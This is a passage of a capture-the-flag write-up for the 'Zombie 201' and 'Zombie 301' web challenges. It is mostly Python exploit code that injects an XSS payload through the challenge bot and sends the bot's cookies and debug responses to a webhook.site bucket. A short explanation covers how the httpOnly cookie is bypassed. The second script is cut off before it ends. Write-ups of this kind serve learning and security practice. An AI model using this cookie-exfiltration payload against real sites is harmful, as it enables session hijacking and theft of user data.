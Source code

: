 ```python
visit_base = f'{base_base}/visit?url='
show_base = f'{base_base}/zombie?show='
payload = f"""
<script>
(async function() {{
    await fetch("{bucket_url}?cookie=" + JSON.stringify(await (await fetch("https://zombie-201-tlejfksioa-ul.a.run.app/debug")).json()))
}})();
</script>
"""

target_url = visit_base + urllib.parse.quote_plus(show_base + urllib.parse.quote_plus(payload))
print("sending", target_url)
r = requests.get(target_url)
print(r.text)

# fetch result
r = requests.get(f"https://webhook.site/token/{bucket_id}/requests?sorting=newest")
print(json.loads(r.json()["data"][0]["query"]["cookie"])["cookie"])
```

{% endraw %}

## Zombie 301

For Zombie 301 httpOnly is set to true and allowDebug is set to false, meaning we can't access the cookie through our simple XSS and we can't use the debug endpoint.

Since the request is still sent using the header we can just extract the cookie from the request header regardless of the response from the server. This is due to missing security measurements in the browser-implementation used by the bot.

{% raw %}

```python
import requests
import os
import re
import urllib.parse

# setup bucket
token_path = ".webhook-site.token"
if os.path.exists(token_path):
    with open(token_path, "r") as f:
        bucket_id = f.read()
else:
    r = requests.post("https://webhook.site/token")
    bucket_id = r.json()["uuid"]
    with open(token_path, "w") as f:
        f.write(bucket_id)

bucket_url = f"https://webhook.site/{bucket_id}"
print(f"https://webhook.site/#!/{bucket_id}/")

# execute exploit
base_base = 'https://zombie-301-tlejfksioa-ul.a.run.app/'
visit_base = f'{base_base}/visit?url='
show_base = f'{base_base}/zombie?show='
payload = f"""
<script>
(async function() {{
    await fetch("{bucket_url}?cookie=" + JSON.stringify((await fetch("https://zombie-301-tlejfksioa-ul.a.run.app/debug"))))
}})();
</script>
```